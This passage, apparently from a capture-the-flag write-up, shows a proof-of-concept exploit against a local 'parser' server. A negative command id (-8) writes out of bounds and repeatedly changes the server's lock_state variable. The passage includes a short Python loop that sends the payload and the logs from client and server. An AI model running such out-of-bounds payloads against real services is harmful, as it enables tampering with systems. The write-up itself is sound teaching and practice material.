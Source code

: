 OK! It understood our payload. The "Command Success: LOCKED" shows the server status of the lock_state.
Let's see the server output:

```bash
$ ./parser 
Value of lock_state: 1 ## STARTING VALUE
Address of lock_state:  0x555b8a153030
Address of command_log: 0x555b8a153038
Trying to bind to socket.
Bound to socket.

Value of lock_state: 2 ## CHANGED!
```

Nice! We managed to change the lock_state value, originally "1".

Let's restart the server and send the same payload 5 times.

```Python
for i in range(5):
    r.send(payload_minus_8)
    log.info(r.recvline())
    log.info(r.recvline())
```

Output:
```bash
$ python poc.py 
[+] Opening connection to localhost on port 3333: Done
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Closed connection to localhost port 3333
```
And in the server:

```bash
$ ./parser 
Value of lock_state: 1
Address of lock_state:  0x560146838030
Address of command_log: 0x560146838038
Trying to bind to socket.
Bound to socket.
Value of lock_state: 2 ## Lets
Value of lock_state: 3 ## Get
Value of lock_state: 4 ## This
Value of lock_state: 5 ## Bastard
Value of lock_state: 6 ## Flag!!
```

